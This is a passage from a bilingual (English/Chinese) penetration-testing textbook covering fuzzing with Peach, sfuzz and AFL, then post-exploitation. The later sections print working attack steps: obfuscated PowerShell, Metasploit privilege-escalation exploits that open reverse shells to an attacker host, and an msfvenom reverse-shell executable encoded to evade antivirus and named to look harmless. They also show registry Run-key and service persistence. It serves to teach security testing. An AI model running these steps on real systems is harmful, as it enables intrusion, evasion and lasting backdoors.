    这也是一种在一段时间内流行的技术，但可能已经稍微淡出了。曾经有很多进行漏洞扫描的项目，其中一些已经不存在了，或者不再维护。有些已经变成了商业工具。最早的漏洞扫描工具来自一个学术项目，名为 `Codenomicon`，它用于识别 DNS 和 SNMP 中的严重漏洞。此后，向应用程序发送损坏数据被认为是更严格测试软件的良好方法。如今，软件开发团队在测试这些异常情况方面做得更好，这可能解释了为什么现在没有那么多项目在进行漏洞扫描。

On top of that, `fuzzing` is hard work. It's not as simple as just running a program that goes off and finds vulnerabilities and exploits. First, even finding a vulnerability is hard. If you can find one of those, there is no guarantee it will translate to an exploit. Let's say you are going to run a fuzzer against an application. If the application crashes, what do you know? You know you crashed an application. Without a lot of monitoring and instrumentation, you don't know where in the application it crashed. You may not even know very well what message caused the crash. The weird thing about software is you may get a cumulative effect. A series of messages may cause a problem that may appear as though a single message caused the failure. Narrowing down the set of messages is hard work.

Having said all that, there are some tools available that you can use for fuzzing. There is an older tool called `Sulley`, named for the fuzzy character from Monsters, Inc. (presumably because Mike didn't have the same ring), that stopped being developed and then was picked up again and updated. It's now in a state that may require a little work to get functional, but you could look at it. The one we will look at here is called `Peach` (get it? peach? fuzz?). This is a tool that can handle both network as well as file fuzzing. It takes care of the instrumentation aspect by allowing you to start up a monitor device.

`Peach` uses XML as a definition language. To write a fuzzing test in `Peach`, you have to create a number of elements. First, you need to create a data model. This defines the data that will be sent into the application. You may have multiple data models. The data models tell `Peach` what parts will be manipulated to send bad data into the application. Once you have your data model(s) defined, you need to create a state model. This tells `Peach` how the data models will be used. The following is a simple example of creating a data model and associated state model for `Peach` that will fuzz an HTTP request.

```
<DataModel name="HttpRequest">

         <String value="GET "/>

         <String value="/"/>

         <String value="HTTP/1.1\r\n"/>

         <String value="Host: "/>

         <String value="127.0.0.1"/>

</DataModel>

<StateModel name="TheStateModel" initialState="TheState">

         <State name="TheState">

                  <Action type="output">

                           <DataModel ref="HttpRequest"/>

                  </Action>

         </State>

</StateModel>
```

These alone are not sufficient. You need a publisher. This tells `Peach` how it's going to communicate with the application. In this case, you would use a network publisher, and `Peach` includes some predefined publishers for network communication. The following is the XML that defines the overall test for `Peach`, including the publisher. It also defines a logger, so we have evidence of what happened. Watching the output on the screen can be challenging since you may get a lot of output and it's hard to follow. What you can see commented out in this is the remote agent, which is used to monitor the application. In this case, we'd monitor the HTTP server for crashes. This lets `Peach` know how to communicate with the remote monitoring application so it can sync up what it sent with what happened on the remote server.

```
<Test name="Default">

         <!-- <Agent ref="RemoteAgent"/> -->

         <StateModel ref="TheStateModel"/>

         <Publisher class="TcpClient">

                  <Param name="Host" value="192.168.4.1"/>

                  <Param name="Port" value="80"/>

         </Publisher>

         <Logger class="File system">

                  <Param name="Path" value="Logs"/>

         </Logger>

</Test>
```

As noted, you get a lot of output. `Peach` will determine how many tests it runs based on the data models defined. The following is a set of output from `Peach` running the test defined earlier:

```
PS C:\Users\Ric Messier\Downloads\peach> .\peach.exe .\samples\http.xml

[[ Peach v3.1.124.0

[[ Copyright (c) Michael Eddington

[*] Test 'Default' starting with random seed 43275.

[R1,-,-] Performing iteration

[1,-,-] Performing iteration

[*] Fuzzing: HttpRequest.DataElement_1

[*] Mutator: UnicodeBomMutator

[*] Fuzzing: HttpRequest.DataElement_0

[*] Mutator: DataElementRemoveMutator

[*] Fuzzing: HttpRequest.DataElement_2

[*] Mutator: UnicodeBomMutator

[*] Fuzzing: HttpRequest.DataElement_3

[*] Mutator: UnicodeBomMutator

[2,-,-] Performing iteration

[*] Fuzzing: HttpRequest.DataElement_1

[*] Mutator: UnicodeBadUtf8Mutator

[*] Fuzzing: HttpRequest.DataElement_3

[*] Mutator: UnicodeUtf8ThreeCharMutator

[3,-,-] Performing iteration

[*] Fuzzing: HttpRequest.DataElement_1

[*] Mutator: UnicodeUtf8ThreeCharMutator

[*] Fuzzing: HttpRequest.DataElement_3

[*] Mutator: StringMutator

[*] Fuzzing: HttpRequest.DataElement_4

[*] Mutator: UnicodeBadUtf8Mutator

[*] Fuzzing: HttpRequest.DataElement_0

[*] Mutator: StringMutator

[*] Fuzzing: HttpRequest.DataElement_2

[*] Mutator: UnicodeUtf8ThreeCharMutator
```


This is not the only type of fuzzing, though. Local vulnerabilities may not work on network services. Instead, they may require files to trigger. Peach will work with file‑based fuzzing as well. In this case, you would need a sample file that could be used to manipulate as needed to trigger a crash. Peach would repeatedly open the file with altered data. The monitoring required for this would occur on the same system where the testing was being executed, which is not necessarily the same for network‑based testing.

One of the advantages of a tool like Peach is that you can create your own test plans for protocols you may not have run across, as in the case of performing application testing. However, often, you are working with well‑known protocols. For something like that, you can use Peach and Peach pits that are available or you can use something that may be a little simpler and also already available in Kali Linux. One of these tools is `sfuzz`. There are a handful of template files that are available. One example is the `basic.smtp` file that can be used to test an email server. This is some of the output from running `sfuzz` against a Postfix mail server.

```
===========================================================

[18:01:03] attempting fuzz - 61 (len: 50057).

[18:01:03] info: tx fuzz - (50057 bytes) - scanning for reply.

[18:01:04] read:

220 badmilo.washere.com ESMTP Postfix (Debian/GNU)

250 badmilo.washere.com

===========================================================

[18:01:04] attempting fuzz - 62 (len: 10).

[18:01:04] info: tx fuzz - (10 bytes) - scanning for reply.

[18:01:04] read:

220 badmilo.washere.com ESMTP Postfix (Debian/GNU)

250‑badmilo.washere.com

250‑PIPELINING

250‑SIZE 10240000

250‑VRFY

250‑ETRN

250‑STARTTLS

250‑ENHANCEDSTATUSCODES

250‑8BITMIME

250‑DSN

250‑SMTPUTF8

250‑CHUNKING
```

This shows the responses from the server to mutated input from the fuzzing tool. You can see the differences in output from the server. Without knowing exactly what the input is, it's hard to know why the output has changed. This is one of the challenges with any sort of fuzzing and highlights the challenges that can come from performing fuzzing as a testing strategy.

While you can use tools like Peach and `sfuzz` for remote application fuzzing over the network, you can also use a tool like American fuzzy lop (AFL) to fuzz file formats. This can manipulate file formats to try to cause local crashes. Once you have a local crash, you can identify where the crash occurs in the code as well as the input data that caused the crash. This may allow you to manipulate the input to change the execution path. The program `afl-fuzz`, available in Kali Linux, will automatically assess normal input data to generate test cases based on that.

[/content]

[content]

下面是一个对 PDF 查看器应用程序运行 `afl-fuzz` 的示例。

通常，`afl-fuzz` 要求应用程序在构建时启用插桩（instrumentation），以便在程序执行过程中对其进行管理。如果你无法获取源代码，或者无法构建带有插桩的二进制文件，可以添加 `-n` 标志，这会跳过测试中的该部分，但会导致结果的可靠性降低。

```
kilroy@cutterjohn:~ $ afl-fuzz -t 100000 -n -i pdfs -o pdf-results /usr/local/bin/atril

afl-fuzz++4.04c based on afl by Michal Zalewski and a large online community

[+] afl++ is maintained by Marc "van Hauser" Heuse, Heiko "hexcoder" Eißfeldt, Andrea Fioraldi and Dominik Maier

[+] afl++ is open source, get it at https://github.com/AFLplusplus/AFLplusplus

[+] NOTE: This is v3.x which changes defaults and behaviours - see README.md

[*] Getting to work…

[+] Using exponential power schedule (FAST)

[+] Enabled testcache with 50 MB

[+] Generating fuzz data with a length of min=1 max=1048576

[*] Checking core_pattern…

[!] WARNING: Could not check CPU scaling governor

[+] You have 2 CPU cores and 2 runnable tasks (utilization: 100%).

[*] Setting up output directories…

[+] Output directory exists but deemed OK to reuse.

[*] Deleting old session data…

[+] Output dir cleanup successful.

[*] Checking CPU core loadout…

[+] Found a free CPU core, try binding to #0.

[*] Scanning 'pdfs'…

[*] Scanning 'pdfs/Downloads'…

[+] Loaded a total of 3 seeds.

[*] Creating hard links for all input files…

[*] Validating target binary…

[*] No auto-generated dictionary tokens to reuse.

[*] Attempting dry run with 'id:000000,time:0,execs:0,orig:keyboard-shortcuts-linux.pdf'…

[*] Spinning up the fork server…

[*] Using AFL++ faux forkserver…

[+] All right - fork server is up.
```


File-based fuzzing does require local access to exploit any identified vulnerability. However, this can be useful for a number of post-exploitation attack techniques, including privilege escalation.

## Post Exploitation

You now have a foothold on the system. What you can do with it depends on what you compromised. You may have limited permissions if the remote service you compromised has limited permissions. You can only perform tasks that you have permissions to perform. This means you may need to escalate your privileges to a user with more than you have. Gaining root or administrator permissions is a common objective for attackers since it helps them pivot to other systems to move laterally within the environment. You may also have a better chance to collect passwords and other critical system information that you may need for other tasks.

You not only have a foothold on the system, but that system also gives you a foothold on the network as well. You may find, especially if you have compromised a system offering services to the outside world, that the system is connected to more than one network. This means you can use the compromised system as a gateway to those other networks. This is a technique called `pivoting`, where you pivot off the compromised system to take a look at another set of systems. This will get you further into the network and potentially gain you even more sensitive information or access to more critical systems.

Attackers will also look to gain persistent access to the system. This may mean a number of activities, from creating users to installing backdoors. Alongside persistent access, the attacker will want to cover their tracks. This can mean hiding data in places on the system. It may mean manipulating logs. It can also mean manipulating system binaries to help hide your existence.

### Evasion

Once you have a foothold, which may include usernames and passwords or actual remote access to a system, you may run into problems. Both workstations and servers will probably have at least anti-malware if not software that will look for anomalous behavior. Endpoint detection and response (EDR) software will know what attack techniques look like. Common tools, such as those discussed in this chapter, may be well-known to these sorts of tools. This calls for evasive tactics.

One possible place where evasion needs to happen is detecting files, primarily on disk. You may be able to use techniques like alternate data streams mentioned later. You can also encrypt or otherwise obfuscate data. Encrypted zip files are one way to get around detection in anti-malware software.

When it comes to execution, though, we have another problem. Anti-malware software may have ways of detecting executables. You may be able to get around this by using PowerShell to perform the same task. There may not be a detection in place for a PowerShell script, especially if you write your own, and you may be able to accomplish the same task that a native executable is doing for you. One of the problems with PowerShell is it may be logged. This can make detection after the fact easier, but not if the PowerShell can't be read. As an example, the following is a sample of PowerShell that has been obfuscated:

```
$N7 =[char[ ] ] "noisserpxE-ekovnI| )93]rahC[,'pQm'ecalpeR-

43]rahC[,'bg0'ecalpeR- )')pQm'+'nepQ'+'m+pQme'+'rGpQm'+'

( '+'roloCdnu'+'orger'+'oF- )bg0nbg0'+'+ bg0oibg0'+' +

bg0tacbg0'+'+'+'bg0sufbO-b'+'g'+'0+'+'bg0ek'+'ovn'+'bg0+ bg0Ib'+'g'+'0 '+

( )'+'bg'+'0tsO'+'bg0'+' + bg'+'0H'+'-'+'ebg0 '+' '+'+ b'+'g0'+'tIRwb'+'g0(.

'((";[Array]::Reverse($N7 ) ; IEX ($N7-Join '' )
```

This translates to `Invoke-Obfuscation`, which is a cmdlet written by Daniel Bohannon that takes a PowerShell script and obfuscates it. There are different ways to accomplish the obfuscation, as demonstrated when you run the cmdlet without any parameters. The following are the techniques you can use for obfuscating PowerShell using this cmdlet:

```
Choose one of the below options:

[*] TOKEN Obfuscate PowerShell command Tokens

[*] AST Obfuscate PowerShell Ast nodes (PS3.0+)

[*] STRING Obfuscate entire command as a String

[*] ENCODING Obfuscate entire command via Encoding

[*] COMPRESS Convert entire command to one-liner and Compress

[*] LAUNCHER Obfuscate command args w/Launcher techniques (run once at end)
```

There are several other ways to obfuscate scripts and data. This may include techniques like encoding payloads that have been generated by a tool like Metasploit. Ultimately, your objective is to get access to a system, which may include getting files onto a system without detection or, probably more likely, executing programs on a target system.

### Privilege Escalation

Your mission, should you choose to accept it, is to gain root-level access. There was a time when services ran as root on Unix/Linux systems or as LocalSystem on Windows systems, which is an account that has a high level of permissions. Once you have root-level access, you should be able to gain access to all information on the system as well as make changes to services and manipulate users. What this means is that you need to get access to the system first, and then you'll need to run another exploit to get elevated privileges. We can continue to use Metasploit for this, so let's start with a compromised system with a Meterpreter shell. If we background the shell using `background`, we can make use of the open session as a way of interacting with the system.

- 本地特权提升是提高权限的常见方法。你可以通过利用以特权用户身份运行的应用程序来实现。一旦你利用了这些应用程序中的一个漏洞，你将拥有与该应用程序运行的用户相同的权限。这使得服务漏洞利用成为常见的目标。在 Linux 系统中，有一种方法可以以 setuid 方式运行应用程序，这意味着应用程序会以文件的所有者身份运行，无论谁执行该程序。通常在任何操作系统上，应用程序运行时会以执行该程序的用户的权限运行。这并不总是可取，因为有时你希望用户能够在不需要超级用户权限的情况下执行一组最小任务。例如，在 Linux 系统中，像 `ping` 和 `traceroute` 这样的程序就是这种情况，它们执行的任务通常需要超级用户权限，例如使用原始套接字来创建看起来略有不同的数据包。这些程序由普通用户执行，但以 root 用户的权限运行。程序停止运行后，权限会被撤销。

- 这只是获得权限而不必针对运行在特权用户下的应用程序的一种方式。它可能更可靠，因为开发人员和系统管理员正在逐渐确保应用程序不以特权用户身份运行，只获取应用程序正确运行所需的特定权限。当然，Linux 权限集中的 setuid 位已知多年，并且已进行工作以限制由此产生的暴露面。然而，这两种途径仍然可能，具体取决于目标系统和操作者。

- 为了提升我们的有限权限，我们需要识别本地漏洞。一种方法是使用 Python 脚本 `windows-exploit-suggester.py`。这是一个可以从 GitHub 下载的脚本，除了 Python 解释器外，它还需要以下两项：第一是 `systeminfo` 的输出，第二是包含 Microsoft 安全公告（MSSB）信息的数据库。为了获取第一项，我们可以从被妥协的 Windows 系统中获取它，通过在 Meterpreter 中获取一个 Windows shell 并运行 `systeminfo`，将输出重定向到文件，然后将该文件拉取回本地系统。以下是该过程的示例。

**获取系统补丁信息**

```
meterpreter> shell

Process 3 created.

Channel 3 created.

Microsoft Windows [Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Program Files\elasticsearch-1.1.1>systeminfo> patches.txt

systeminfo> patches.txt

C:\Program Files\elasticsearch-1.1.1>exit

exit

meterpreter> download patches.txt

[* ] Downloading: patches.txt -> patches.txt

[* ] Downloaded 2.21 KiB of 2.21 KiB (100.0%): patches.txt -> patches.txt

[* ] download : patches.txt -> patches.txt
```

- 一旦我们拥有补丁信息，就可以继续使用 `windows-exploit-suggester`。我们将获取更新的 MSSB 数据库，然后使用我们的两个文件运行脚本，寻找本地漏洞。以下是运行脚本的示例。我们将得到一个可能对我们被妥协系统进行本地攻击的漏洞列表。它不会提供关于 Metasploit 模块的详细信息，因此我们仍然需要进行一些搜索。但它会提供如果你想进一步了解漏洞和漏洞利用的资源。需要注意的是，这是一个基于 Python2 的脚本，不能在 Python3 环境下运行。

**获取本地漏洞建议**

```
root@quiche:~# ./windows-exploit-suggester.py --update

[* ] initiating winsploit version 3.3…

[+ ] writing to file 2023-01-09-mssb.xls

[* ] done

root@quiche:~# ./windows-exploit-suggester.py -i patches.txt -d 2023-01-09-mssb.xls -l

[* ] initiating winsploit version 3.3…

[* ] database file detected as xls or xlsx based on extension

[* ] attempting to read from the systeminfo input file

[+ ] systeminfo input file read successfully (ascii)

[* ] querying database file for potential vulnerabilities

[* ] comparing the 2 hotfix(es) against the 407 potential bulletins(s) with a database of 137 known exploits

[* ] there are now 407 remaining vulns

[* ] searching for local exploits only

[+ ] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin

[* ] windows version identified as 'Windows 2008 R2 SP1 64-bit'
```


[* ] MS16-075: Security Update for Windows SMB Server (3164038) - Important

[* ] https://github.com/foxglovesec/RottenPotato

[* ] https://github.com/Kevin-Robertson/Tater

[* ] https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege

--- snip ---

[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important

[* ] http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC

[* ]

[* ] done

```
-   列出的某些建议漏洞无法在 Windows on Windows（WoW）64 环境下运行。WoW64 是一个子系统，允许 32 位 Windows 可执行文件在 64 位 Windows 安装上运行。利用需要在该子系统内运行并能够利用该漏洞。由于 64 位 Windows 上存在额外的软件层，某些漏洞可能无法利用。我们将使用 MS16-032 漏洞。我们需要识别与该漏洞关联的 Metasploit 模块，这意味着我们只需搜索 Microsoft 漏洞即可，如下面的代码示例所示。搜索漏洞后会返回单个模块。
```

**搜索本地漏洞**

```msf exploit(windows/local/ms15_051_client_copy_image)> search MS16-032

 Matching Modules
 ================

    Name                                                             Disclosure Date  Rank    Description
    ----                                                             ---------------  ----    -----------
    exploit/windows/local/ms16_032_secondary_logon_handle_privesc  2016-03-21       normal  MS16-032 Secondary Logon Handle Privilege Escalation
    exploit(windows/local/ms15_051_client_copy_image)> use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

-   请记住，此时我们已经有一个打开的目标系统会话。要使用本地漏洞，我们需要设置我们打开的会话号码。如果你需要确定要使用哪个会话号码，因为你已经失去了跟踪，可以在将 Meterpreter 会话背景化后使用`sessions`命令。这是一个你需要设置的参数，同时还需要设置用于反向 Meterpreter 壳的 payload、本地主机和端口。以下是设置所有必要变量并启动漏洞的示例。

**使用本地漏洞从 Metasploit 中**

```msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> set SESSION 2

SESSION => 2

msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> set LHOST 192.168.86.57

LHOST => 192.168.86.57

msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> set LPORT 4445

LPORT => 4445

msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc)> exploit

 [* ] Started reverse TCP handler on 192.168.86.57:4445
 [!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
 [* ] Writing payload file, C:\ManageEngine\DesktopCentral_Server\bin\ROayyKQ.txt…
 [* ] Compressing script contents…
 [* ] Compressed size: 3621
 [* ] Executing exploit script…
```

在某些情况下，我们无法使用 Metasploit。我们需要使用一些外部工具。这可能意味着编译一个 exploit 程序。在下面的代码列表中，你会看到利用分布式 C 编译器守护进程的漏洞来妥协 Linux 系统。我们使用 Metasploit 模块进行初始 exploit。特权提升需要在目标系统上编译一个 C 程序。由于我们无法保证目标系统上有 C 编译器，因此在攻击系统上进行编译。我们的目标是 32 位，而我们的攻击系统是 64 位。这意味着我们需要一套特殊的库，以便能够跨架构交叉编译。一旦我们得到输出，就可以把它和一个简单的 shell 脚本放入目录中，这样就可以通过 Web 服务器访问。在此列表中，你会看到利用目标系统并运行特权提升。

**Linux 特权提升**

```Msf6> use exploit/unix/misc/distcc_exec
msf exploit(unix/misc/distcc_exec)> set RHOST 192.168.86.66
RHOST => 192.168.86.66
msf exploit(unix/misc/distcc_exec)> exploit

 [*] Started reverse TCP double handler on 192.168.86.57:4444
 [*] Accepted the first client connection…
 [*] Accepted the second client connection…
 [*] Command: echo 9LVs5a2CaAEk29pj;
 [*] Writing to socket A
 [*] Writing to socket B
 [*] Reading from sockets…
 [*] Reading from socket B
 [*] B: "9LVs5a2CaAEk29pj\r\n"
 [*] Matching…
 [*] A is input…
 [*] Command shell session 1 opened (192.168.86.57:4444 -> 192.168.86.66:47936) at 2023-01-09 18:28:22 -0600

 whoami
 daemon
 cd /tmp
 ps auxww | grep udev
 root      2663  0.0  0.1   2216   700 ?        S<s  Apr24   0:00 /sbin/udevd --daemon
 daemon    6364  0.0  0.1   1784   532 ?        RN   11:54   0:00 grep udev
 ./escalate 2662
```

这里看不到的是下载两个所需文件。其中一个是 exploit 本身，名为`escalate`。另一个是一个简单的 shell 脚本，名为`run`。它的作用是使用`netcat`向目标系统发送一个 shell。在下面的代码列表中，你可以看到我们在攻击系统上看到的反向连接。我们通过使用`netcat`在攻击系统上打开一个监听端口来获得反向连接。监听端口与 shell 脚本中使用的端口相同。在特权提升攻击中，我们提供比`udev`进程的进程标识符（PID）少一个数值，这会触发 exploit。

**使用`netcat`监听反向连接**

```kilroy@quiche:~$ netcat -lvp 5555
 listening on [any] 5555 …
 192.168.86.66: inverse host lookup failed: Unknown host
 connect to [192.168.86.57] from (UNKNOWN) [192.168.86.66] 50391
 whoami
 root
 uname -a
 Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

这种链式 exploit 常常是获得必要访问权限的手段。当然，获得管理员访问并不是全部目标，但它确实很有用。你可能还想利用已获取的立足点来查找网络中的其他系统。

## Pivoting（横向移动）

一些组织的网络设计是扁平的，即所有系统都连接到同一个网络，而不是多个网络提供分层访问。但担心关键资源安全的组织通常会将系统连接到多个网络。你在 compromising 一个系统后，可能会发现它有多个网络接口，例如下面代码列表中显示的系统。该系统是 Windows 系统，拥有两个接口。一个位于 192.168.86.0 网络，这是 exploit 进入的接口。另一个接口，名为 Interface 19，位于 172.30.42.0 网络。这是我们想要目标的网络，但我们不能直接在已被 compromising 的系统上上传大量攻击工具。相反，我们需要能够通过我们的攻击系统将流量传递到它所连接的网络。

**IP 地址配置**

```meterpreter> getuid
 Server username: NT AUTHORITY\LOCAL SERVICE
 meterpreter> ipconfig

 Interface  1
 ============
 Name         : Software Loopback Interface 1
 Hardware MAC : 00:00:00:00:00:00
 MTU          : 4294967295
         IPv4 Address : 127.0.0.1
 IPv4 Netmask : 255.0.0.0
 IPv6 Address : ::1
 IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

 Interface 12
 ============
 Name         : Microsoft ISATAP Adapter
 Hardware MAC : 00:00:00:00:00:00
 MTU          : 1280
 IPv6 Address : fe80::5efe:c0a8:5621
 IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

 Interface 13
 ============
 Name         : Intel(R) PRO/1000 MT Network Connection
 Hardware MAC : 1e:25:07:dc:7c:6e
 MTU          : 1500
 IPv4 Address : 192.168.86.33
 IPv4 Netmask : 255.255.255.0
 IPv6 Address : fe80::35b1:1874:3712:8b59
 IPv6 Netmask : ffff:ffff:ffff:ffff::

 Interface 19
 ============
 Name         : Intel(R) PRO/1000 MT Network Connection #2
 Hardware MAC : 42:39:bd:ec:24:40
 MTU          : 1500
 IPv4 Address : 172.30.42.50
 IPv4 Netmask : 255.255.255.0
 IPv6 Address : fe80::4b4:7b9a:b3b7:3742
 IPv6 Netmask : ffff:ffff:ffff:ffff::
```

要添加路由以便将流量传递到 172.30.42.0 子网，我们需要运行一个 post‑exploit 模块。我们将运行名为`autoroute`的模块，它会利用已有的会话来添加该网络的路由。下面的列表展示了运行`autoroute`模块的过程，输出表明路由已成功添加。

**运行`autoroute`**

```meterpreter> run post/multi/manage/autoroute SUBNET=172.30.42.0 ACTION=ADD
 [!] SESSION may not be compatible with this module.
 [*] Running module against VAGRANT-2008R2
 [*] Adding a route to 172.30.42.0/255.255.255.0…
 [+] Route added to subnet 172.30.42.0/255.255.255.0.
```

现在路由已就位，我们可以利用它。我们可以在此阶段将 Meterpreter 会话置于后台，然后运行我们想要的任何模块来针对该网络。例如，运行端口扫描是很常见的。下面的代码展示了在将 Meterpreter 会话后台后，从外部检查路由表，随后加载端口扫描模块对该网络进行扫描。

```
msf exploit(windows/http/manageengine_connectionid_write)> route print

 IPv4 Active Routing Table
 =========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.30.42.0        255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
msf exploit(windows/http/manageengine_connectionid_write)>

msf exploit(windows/http/manageengine_connectionid_write)> use auxiliary/scanner/portscan/tcp
msf auxiliary(scanner/portscan/tcp)> set RHOSTS 172.30.42.0/24
RHOSTS => 172.30.42.0/24
msf auxiliary(scanner/portscan/tcp)> run
```

一旦你对其他网络上的系统有了初步了解，就可以开始查找那些系统的漏洞。横向移动的核心是利用已被 compromising 的系统来获得对其他系统的访问，即在系统之间进行横向移动。一旦你的网络路由就位，你就处于良好的位置来实现这种横向移动，从而扩展你在网络中的影响范围。

## Persistence（持久化）

-   获得访问权限很重要，因为它表明你可以 compromise 系统并获取敏感信息。这是向你工作的组织展示其中一些问题的好方法。然而，攻击者不想每次想要访问系统时都继续利用同一漏洞。首先，这很费时。其次，如果攻击者（即使是假冒攻击者，即你）利用漏洞，就不能确定该漏洞不会被修补。这意味着他们以后可能无法进入。收集信息通常不是一次性的。当然，在企业环境中，数据始终在变化。无论攻击者的目标是什么，他们通常都希望保持对被 compromises 系统的访问。

-   维持访问的过程称为`persistence`。访问系统随时间持久化，理想情况下跨越系统重启。理想情况下，攻击者想随时进入系统。有几种技术可以实现这一点。如果系统具有远程访问，例如 Secure Shell（`SSH`）或 Windows 系统的远程桌面，攻击者可以创建一个新用户，该用户拥有远程登录的权限。如果被 compromises 的用户更改密码或账户被删除，新用户仍可供攻击者使用。

-   另一种方法是安装能够主动向攻击者系统发起连接的软件。这通常是最佳选择，因为防火墙可能会阻止入站连接尝试，但出站连接通常被允许。因此，我们可以安装一个 reverse shell 包，它会在我们有一个等待监听的处理器时向我们的系统连接。在下面的代码片段中，你可以看到从 Meterpreter 会话开始，安装一个在用户登录时自动启动的程序。此持久化机制使用注册表存储 payload。在注册表的`HKEY_CURRENT_USER`（HKCU）下创建一个`Run`关键字，然后加载该关键字来调用 payload。

**注册表持久化（Metasploit）**


```
meterpreter> getuid
服务器用户名: NT AUTHORITY\LOCAL SERVICE
meterpreter> background
[* ] 正在后台会话 1…
msf exploit(windows/http/manageengine_connectionid_write)> use exploit/windows/local/registry_persistence
msf exploit(windows/local/registry_persistence)> set SESSION 1
SESSION => 1
msf exploit(windows/local/registry_persistence)> exploit
  
[* ] 生成 payload blob…
[+ ] 生成 payload，5968 字节
[* ] 根路径是 HKCU
[* ] 正在安装 payload blob…
[+ ] 创建注册表键 HKCU\Software\hO2pqzTh
[+ ] 将 payload blob 安装到 HKCU\Software\hO2pqzTh\kASCvdW3
[* ] 正在安装 run key
```

此过程利用注册表存储可执行的 blob，且对注册表中存储和执行的内容没有控制权。你也可以自行创建可执行文件，同样使用注册表技术。但你无法使用上面所示的模块。要创建自己的独立可执行文件，可以使用 Metasploit 的 `msfvenom` 程序。下面的代码片段展示了 `msfvenom` 的示例运行，它将 payload `windows/meterpreter/reverse_tcp`（向指定 IP 地址发送反向 Meterpreter 会话）打包为 Windows 可执行文件。

**使用 `msfvenom` 创建独立 payload**

```
root@quiche:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.57 LPORT=3445 -f exe -e x86/shikata_ga_nai -a x86 -i 3 -o elfbowling.exe
         [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of exe file: 73802 bytes
Saved as: elfbowling.exe
root@quiche:~# ls -la elfbowling.exe
-rw-r--r-- 1 root 73802 Sep 12 17:58 elfbowling.exe
```

命令行参数大多相当直观。我们正在为 32 位 Windows 系统创建一个 `.exe` 文件。payload 会向 192.168.86.57 的 3445 端口建立连接。要在目标系统上使用 Meterpreter，需要启动一个 handler。为了呼应几十年前的几个 silly games，我称其为 `elfbowling.exe`。也许看到它的人不会觉得特别奇怪。除了将 payload 打包进标准的 portable executable 格式外，`.exe` 还被编码。编码的目的是躲避防病毒程序。

还有其他方法创建持久连接。另一种是使用 Metsvc。这是 Meterpreter 服务，它会创建一个监听器（默认端口 31337），可以通过该端口连接以获得 Meterpreter shell。你会注意到 Metasploit 表示 Meterpreter 脚本已被弃用，建议加载模块并使用它们。但目前 Meterpreter 服务仍可用，只要你能通过防火墙连接到指定端口即可。

**在目标上创建 Meterpreter 服务**

```
meterpreter> run metsvc
  
[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence:exe.
[!] 示例: run post/windows/manage/persistence:exe OPTION=value […]
[* ] 正在创建 meterpreter 服务，端口 31337
[* ] 正在创建临时安装目录 C:\Windows\SERVIC~2\LOCALS~1\AppData\Local\Temp\KrUjwJQb…
[* ]>> 上传 metsrv.x86.dll…
[* ]>> 上传 metsvc-server.exe…
[* ]>> 上传 metsvc.exe…
[* ] 启动服务…
```

如所述，Meterpreter 服务要求可以进行入站连接。此外，Meterpreter 服务脚本已被弃用，可能很快从 Metasploit 中移除。取而代之的是 Metasploit 指出的模块。下面的代码片段展示了该模块的使用。它需要你有一个可上传并安装在目标系统的可执行文件。这里提供的正是之前创建的 reverse Meterpreter 可执行文件的输出。你会看到 Meterpreter 将 payload 上传到目标系统并创建持久化可执行文件。注册表 entries 会在用户登录时自动运行该持久化可执行文件。可以看到引用了 HKCU，即 `HKEY_CURRENT_USER`，这是记录已登录用户的注册表位置。

**使用 Metasploit 模块实现持久化**

```
meterpreter> run post/windows/manage/persistence:exe REXEPATH=/root/elfbowling.exe
  
[* ] 正在针对 VAGRANT-2008R2 运行模块
[* ] 从文件 /root/elfbowling.exe 读取 payload
[+ ] 持久脚本写入 C:\Windows\SERVIC~2\LOCALS~1\AppData\Local\Temp\default.exe
[* ] 执行脚本 C:\Windows\SERVIC~2\LOCALS~1\AppData\Local\Temp\default.exe
[+ ] Agent 以 PID 5672 运行
[* ] 将其安装为自动启动项 HKCU\Software\Microsoft\Windows\CurrentVersion\Run\qWQPRsRzw
[+ ] 已安装为自动启动项 HKCU\Software\Microsoft\Windows\CurrentVersion\Run\qWQPRsRzw
[* ] 清理 Meterpreter RC 文件: /root/.msf4/logs/persistence/VAGRANT-2008R2_22230112.4749/VAGRANT-2008R2_2230112.4749.rc
```

这给我们提供了多种在初始入口之后继续访问目标系统的方法。你可能已经注意到，这些持久化机制会在目标系统上留下文件和注册表条目。这些操作和痕迹如果目标端点上有检测机制，或者有人在关注端点活动，就可以被检测到。这是一个需要考虑的因素。当你在调查端点时，你可能会观察到目标上是否安装了恶意软件检测或其他类型的检测软件。

除了注册表持久化之外，还有许多其他常见技术可以用来保持存在。例如，Windows 支持登录脚本，这些脚本可以在用户登录时在目标系统上执行，从而运行攻击者控制的代码。在类 Unix 系统中，情况类似，两种操作系统都支持在启动时执行的服务。

